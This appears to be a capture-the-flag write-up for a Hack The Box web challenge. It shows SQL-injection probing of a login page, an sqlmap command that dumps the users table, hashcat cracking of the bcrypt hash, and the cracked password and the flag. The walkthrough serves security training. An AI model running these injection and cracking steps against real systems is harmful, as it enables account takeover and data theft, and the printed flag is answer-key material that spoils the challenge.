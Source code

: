 # KORP Terminal

Your faction must infiltrate the KORP™ terminal and gain access to the
Legionaries' privileged information and find out more about the organizers of
the Fray. The terminal login screen is protected by state-of-the-art encryption
and security protocols.

## How to Play

This challenge can be solved either by brute-forcing the login page or by
exploiting a SQL injection vulnerability.

1. Use the given URL in your browser to access the login page.
2. Check `admin'` as username and `admin'` as password. to see if it is
   vulnerable to SQL injection.
3. Since it's vulnerable, use sqlmap to automate the process of exploiting the
   vulnerability. here is the command to use:
   ```bash
    sqlmap -u "94.237.61.21:51335" --data="username=admin&password=admin" --ignore-code 401 -v 6 --dump -T users
    ```
    - `-u` is the URL of the login page.
    - `--data` is the post request data to be sent to the server.
    - `--ignore-code 401` is to ignore the 401 status code. since the server
      returns 401 status code when the username and password are incorrect.
      and we don't want to see the error message.
    - `-v 6` is the verbosity level.
    - `--dump` is to dump the database.
    - `-T users` is to dump the users table. not the whole database.
4. Use the default options for all the questions asked by sqlmap.
    ```
    +----+--------------------------------------------------------------+----------+
    | id | password                                                     | username |
    +----+--------------------------------------------------------------+----------+
    | 1  | $2b$12$OF1QqLVkMFUwJrl1J1YG9u6FdAQZa6ByxFt/CkS/2HW8GA563yiv. | admin    |
    +----+--------------------------------------------------------------+----------+
    ```
5. The password is hashed. use an hash cracker like hashcat to crack the
   password.
   ```bash
    hashcat -m 3200 hash.txt /usr/share/wordlists/seclists/Passwords/Leaked-Databases/rockyou.txt
    ```
    - `-m 3200` is the hash mode. First time run the hashcat without this
      option to see the hash modes available. mode 3200 is the one that makes
        sense.
6. Use '--show' option to see the cracked password.
    ```
    $2b$12$OF1QqLVkMFUwJrl1J1YG9u6FdAQZa6ByxFt/CkS/2HW8GA563yiv.:password123
    ```
7. Use the cracked password to log in to the terminal.

## Flag

```
HTB{t3rm1n4l_cr4ck1ng_sh3n4nig4n5}
```
